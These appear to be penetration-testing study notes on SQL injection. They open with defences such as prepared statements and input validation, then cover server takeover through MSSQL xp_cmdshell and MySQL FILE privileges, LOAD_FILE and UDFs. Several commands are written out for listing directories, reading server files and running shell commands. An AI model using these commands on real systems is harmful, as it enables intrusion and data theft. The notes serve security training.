* SQLI are **input validation attack** and can be prevented by enforcing input validation on any user-controlled parameter

* ### 1. Prepared Statements

  * Web applications, which use SQL, can separate the code from instructions using bind variables in SQL
  * Best solution to mitigate SQLi and should always be favored over any other solution
  * Implementing prepared statements could be a long-term objective as it implies code refactoring of nearly every SQL interaction in the web application
  * 

* ### 2. Type Casting

  * A short-term method to prevent some SQLis is to perform type casting for some data types,perhaps most notably integer numbers
  * Example => **$user_id = (int) $user_id;**

* ### 3. Input Validation

  * Input validation is a great short-term remediation and a good practice to put in production on top of prepared statements.
  * It can sometimes protect your application if a SQL Injection vulnerability is otherwise somehow introduced by accident.
  * 


---


### From SQLi to Server Takeover


* Advance Features of SQLi to exploit to **get access to the DBMS Server Machine**
* SQL Server is a very powerful DBMS, providing advanced features to database administrators.
* Most of these features are privileged commands
* Users like *dbo* are not usually privileged enough to perform these commands
* From a penetration tester point of view, we can exploit these features to perform the advanced attacks
* We need => **High Privileges** 
  * Testing Objective is => **retrieve the *sa* user's password.**
* Once we have the SHA-1 hash of the password, we can crack it and access the database in the same manner as a legitimate database administrator
* 


* ### xp_cmdshell

  * 
  * 
  * 
  * 

  

* ### Internal Network HOST Enumeration

  * By using **xp_cmdshell**, we can launch some commands on the database server
  * We can combine this with some other SQL Server features to mount a host enumeration utility via SQL injections.
  * 
  * 
  * 

  

* ### Port Scanning

  * 
  * 

  

* ### Reading the FILE System

  * We can also read the file system by launching the **dir** command

  * ```
    EXEC master..xp_cmdshell 'dir <target directory>'
    ```

    * That will return the directory listing of <target directory>.

  * To read the result,  we cans ave the output of the command on a web accessible folder

    * ```
      EXEC master..xp_cmdshell 'dir c:\ > C:\inetpub\wwwroot\site\dir.txt'--
      ```

    * and then just browse to dir.txt at the URL: http://site.com/dir.txt

  * 

  

* ### Uploading Files

  * By using MSSQL advanced features, it is also possible to **upload a file** to the victim serve
  * 
  * 

  

  

* ### Storing Command Results into a Temporary Table

  * Let's now use the technique to save the results of these stored procedures in a temporary table
    * We can then read the results by using some data dumping techniques
  * 
  * 
  * 
  * 
  * 
  * 
  * 


* ### Advance MySQL Exploitation

  * **MySQL** is another DBMS which provides some advanced features.

  * A penetration can exploit them to get full access to a target server.

  * Most Feature - *FILE* privilege that  " gives us permission to read and write files on the server host"

  * The FILE privileges can be granted to any MySQL user depending on the web application needs

  * It is always granted to the MySQL **root** user both on Unix System and MS Windows

  * Its means that if an application connects to its database as **root**  exploiting a SQL injection will lead not only to data compromise but also **to full server takeover.**

  * It is possible to read files by using the **LOAD_FILE** function

    * ```
      SELECT LOAD_FILE('<text file path>');
      ```

  * To read the binary file,  we can use it together with the **HEX** function

    * ```
      SELECT HEX(LOAD_FILE('<text file path>'));
      ```

    * By using this above method,  we can convert any binary file to a long hex string that we can use to steal any data from the serve

  * 

  * 

  * ### Uploading Files

    * 
    * 
    * 
    * 
    * 
    * 
    * 

  * ### Executing Shell Commands

    * MySQL does not provide a function to run shell commands by default, but it provides
      * **User Defined Functions** [UAF]
        * https://dev.mysql.com/doc/refman/5.7/en/adding-udf.html
    * By using UDFs, it is possible to create two functions:
      * **sys_eval(<command>)**
        * which returns the **standard output** of the chosen command
      * **sys_exec(<command>)**
        * that returns the command **exit status**
    * To use those functions, we have to upload a **Shared Object [SO]** on Unix system or **Dynamic-Link Library [DLL]** on a Window System to the target server. Then we can use them
      * Source code of those function => http://www.mysqludf.org/
      * Compiled Version => https://github.com/sqlmapproject/sqlmap/tree/master/udf/mysql
    * 
    * This can be easily accomplished by using the SQLMap takeover features **--os-cmd** and **--os-shell**


---


 

